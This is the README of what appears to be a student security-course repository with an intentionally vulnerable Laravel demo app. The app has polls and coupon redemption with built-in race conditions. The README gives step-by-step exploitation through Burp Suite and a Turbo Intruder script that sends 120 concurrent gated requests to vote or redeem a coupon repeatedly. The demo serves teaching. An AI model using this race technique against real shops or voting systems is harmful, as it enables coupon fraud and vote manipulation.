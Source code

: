 ## WIP - Race conditions in Laravel (demo)

Laravel is a very popular framework for building web applications in php. This is the reason we have chosen it for vulnerability demo purposes.

This repository contains demonstration of poor programming against race conditions. It contains several examples:

- Polls
- Coupons

In each part sleep is used to allow for easier exploit of race condition.

## Setup

1. Clone repository
2. Run `composer install`
3. Replace `.env` with `.env.example`
4. Create and connect to database
5. Run `php artisan migrate --seed` gwith default seeder
6. Run `php artisan serve` to start application. For testing race conditions local webserver should be used.
7. Log@in as `admin@admin.sk` and `adminadmin`

## Polls

First part is a simple polls app represented by Polls tab. In each poll user can vote only single time. Results of the poll can then be displayed in the Answers tab.

`/polls/2` (POST method) with body `answer: '5'`allows for voting in poll with id 2 and answer id 5

`/polls/revoke` allows for revoking all votes for currently logged in user

`/answers/` shows answer numbers for each poll

### Exploitation

1. Open up burp suite or similiar tool
2. Open inbuilt browser, login and navigate to polls
3. Start intercept mode and submit a vote
4. Copy request contents over to repeater
5. Boot up turbo intruder
6. Following script is used, where inside post the request to be repeated should be placed. Do not forget to put `\r\n\r\n` at the end of request (otherwise malformed HTTP request exception is raised)
```python
   def queueRequests(target, wordlists):
        engine = RequestEngine(endpoint=target.endpoint,
                               concurrentConnections=120,
                               requestsPerConnection=120,
                               pipeline=False)
        post = '''
            \r\n\r\n
            '''


        for i in range(1, 120):
            engine.queue(post, gate='race')

        engine.openGate('race');
        engine.complete(timeout=15)


        def handleResponse(req, interesting):
            if interesting:
                table.add(req)
```
7. Start attack and observe results. In case only one vote is added, make sure laravel is not run with `php artisan serve` but use local webserver like apache
8. Repeat the same for `v2` version for the remaining poll

## Coupons

Second part is a simple coupon redeeming app and can be found in Coupons tab. Simply choose a valid coupon and submit it in the Cart tab to redeem its value.

`/coupons/` lists all currently available coupons.

`/coupons/cart` lists current cart products with discount. Form for redeeming code is also supplied.

`/coupons/` (POST method) with body `code: 'AEZAKMI'` tries to redeem code AEZAKMI for current cart.

### Exploitation

1. Open up burp suite or similiar tool
2. Open inbuilt browser, login and navigate to coupons, choose suitable code
3. Navigate to cart, start intercept mode and apply chosen code
4. Copy request contents over to repeater
5. Boot up turbo intruder
6. Following script is used, where inside post the request to be repeated should be placed. Do not forget to put `\r\n\r\n` at the end of request (otherwise malformed HTTP request exception is raised)
```python
   def queueRequests(target, wordlists):
        engine = RequestEngine(endpoint=target.endpoint,
                               concurrentConnections=120,
                               requestsPerConnection=120,
                               pipeline=False)
        post = '''
            \r\n\r\n
            '''


        for i in range(1, 120):
            engine.queue(post, gate='race')

        engine.openGate('race');
        engine.complete(timeout=15)


        def handleResponse(req, interesting):
            if interesting:
                table.add(req)
```
7. Start attack and observe results. In case coupon is only redeemed once, make sure laravel is not run with `php artisan serve` but use local webserver like apache
8. Repeat the same for `v2` version for the remaining coupon

## TODO

- [x] Polls
- [x] Coupons
- [x] Polls exploit
- [x] Coupons exploit
- [x] Polls v2 (fixed)
- [x] Coupons v2 (fixed)

## Licensing

Repository was created during semestral work in subject Information Technologies Security.
